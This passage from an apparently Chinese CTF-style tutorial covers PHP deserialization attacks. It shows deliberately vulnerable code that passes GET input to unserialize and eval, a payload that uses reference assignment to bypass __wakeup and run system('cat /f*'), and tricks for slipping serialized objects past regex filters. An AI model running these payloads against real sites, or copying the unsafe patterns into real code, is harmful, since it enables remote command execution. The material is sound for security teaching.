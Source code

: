 ```
    }
    public function __destruct(){
        $this->b=$this->c;
        eval($this->a);
    }
}
$a=$_GET['a'];
if(!preg_match('/test":3/i',$a)){
    die("你输入的不正确！！！搞什么！！");
}
$bbb=unserialize($_GET['a']);
```
可以看出，我们最终要进行执行的$a在wakeup方法内被定义为空，并且这里禁止更改成员属性个数，所以我们考虑使用引用赋值进行绕过。payload如下：  
```
<?php
class test{
    public $a;
    public $b;
    public $c;
}
$o = new test();
$o->b = &$o->a;
$o->c = "system('cat /f*');";
echo serialize($o);
```

#### 3）__unserialize()魔术方法（要求PHP 7.4.0+）  
如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略。


### 绕过部分正则：  
绕过`'/[oc]:\d+:/i'`  
#### 1）加号+跳过正则判断（注意在url里传参时+要编码为%2B）  
```
preg_match('/[oc]:\d+:/i', $var)  //匹配o或c任意一个，冒号，至少一个数字，冒号，不区分大小写  
O:6:"secret":2:{s:4:"file";s:8:"flag.php";}  -->  O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}
```

#### 2）数组绕过
```
<?php
$o = 'O:6:"secret":2:{s:4:"file";s:8:"flag.php";}';
echo serialize(array($o));

//a:1:{i:0;s:43:"O:6:"secret":2:{s:4:"file";s:8:"flag.php";}";}
```
<br>


## php序列化--任意命令执行

漏洞代码示例：
```
<?php
class Test{
    public $cmd = "whoami";
    function __wakeup()
    {
        system($this->cmd);
    }
}
$Obj = unserialize($_GET['cmd']);   //当unserialize运行，wakeup方法会自动执行，从而实现命令执行
?>
```

